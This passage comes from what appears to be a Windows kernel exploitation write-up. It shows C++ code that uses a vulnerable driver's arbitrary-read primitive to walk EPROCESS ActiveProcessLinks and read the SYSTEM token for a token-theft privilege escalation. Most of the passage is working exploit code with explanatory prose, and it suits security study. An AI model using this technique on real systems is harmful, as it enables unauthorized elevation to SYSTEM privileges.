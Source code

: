 ```c++
        abort();
    }
    ...
```

The above attempts to convert the current OS Major & Minor version, along with the Build Number, into a Windows Version string.
This string is then used to map to a corresponding offset value. Please note there is likely to be some errors in above as these offsets can be inconsistent.

<br>

## <u>Popping Some Kernels</u>

Now finally with all the pieces in place I could attempt to read the SYSTEM `EPROCESS` structure and perform the token theft. I quickly put together a small piece of code to walk the `ActiveProcessLinks` until my current process id was found, after which the `EPROCESS` pointer would be returned.

```c++
ULONGLONG GetCurrentEproc(HANDLE DriverHandle, ULONGLONG sys_eproc) {
    DWORD target = GetCurrentProcessId();
    ULONGLONG CurrentEprocess = sys_eproc;
    DWORD CurrentPid = 0x4;
    ULONG_PTR Flink = 0;

    // Iterate over APLs, decrement offset everytime and check pid for each EPROC
    while (CurrentPid != target) {
        Flink = arbitrary_read(DriverHandle, CurrentEprocess + APL_OFFSET);
        CurrentEprocess = Flink - APL_OFFSET;
        CurrentPid = arbitrary_read(DriverHandle, CurrentEprocess + PID_OFFSET);
    }
    return CurrentEprocess;
}
```

Finally, having finished out the last of my `main` method's functionality we can now actually perform the SYSTEM token theft and elevate our privileges from that of a `low integrity` process. The below code does the typical calculations and invokes the above code to find our current process' `EPROCESS` and swaps the token values, preserving the token's last nibble; the Reference Counter / `RefCnt`.

```c++
            ULONGLONG sys_eproc = arbitrary_read(DriverHandle, nt_base + PSISP_offset);
            printf_s("\t[++] SYSTEM _EPROC: %llx\n", sys_eproc);

            // Ensure correct SYSTEM EPROC address range (can prevent a BSOD)
            if (sys_eproc < 0xFFF0000000000000) {
                printf_s("\t[!!] Incorrect PsInitialSystemProcess Pointer, exiting");
                abort();
            }
            // Walk APL in SYSTEM EPROC to find current EPROC
            ULONGLONG curr_eproc = GetCurrentEproc(DriverHandle, sys_eproc);
            printf_s("\t[++] CURRENT _EPROC: %llx\n", curr_eproc);

            // Everything but the last last nibble 
            ULONGLONG sys_token = arbitrary_read(DriverHandle, sys_eproc + TOKEN_OFFSET) & 0xFFFFFFFFFFFFFFF0;
            printf_s("\t[++] Stolen System Token: %llx\n", sys_token);

            // Get current process token
            ULONGLONG curr_token = arbitrary_read(DriverHandle, curr_eproc + TOKEN_OFFSET);
            printf_s("\t[++] Current Token: %llx\n", curr_token);

            // Get the last nibble for our current token, handle RefCnt
            DWORD handle_ref = curr_token & 0x000000000000000F;
            printf_s("\t[++] Old Handle Ref: %X\n", handle_ref);
```